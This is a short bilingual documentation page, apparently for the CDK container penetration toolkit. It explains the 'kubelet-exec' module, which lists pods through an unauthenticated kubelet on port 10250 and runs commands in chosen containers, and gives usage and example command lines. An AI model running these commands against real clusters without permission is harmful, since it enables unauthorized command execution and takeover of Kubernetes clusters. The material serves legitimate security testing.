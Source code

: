 ```yaml
---
title: 利用kubelet接管K8s集群
author: 404tk
date: 2022-06-27
category: Kubernetes
layout: post
---
```


Exploit: kubelet-exec
-------------
Use the default '10250' port 'kubelet' service to list pods running in the cluster.  
By default, unauthorized access is supported. The token can be entered optionally.   

利用默认`10250`端口`kubelet`服务列举集群中运行的pods，支持指定pods执行系统命令并回显。  
默认支持未授权访问利用，token可选择性填写。  

Usage
-------------
```shell
./cdk run kubelet-exec (list|exec) <endpoint>/<namespace>/<pod>/<container> <token>
```  

Example
-------------
```shell
./cdk run kubelet-exec list http://172.16.61.10:10250
./cdk run kubelet-exec exec https://172.16.61.10:10250/kube-system/test1/test "ip addr"
```  
![](/assets/images/kubelet_exec.png)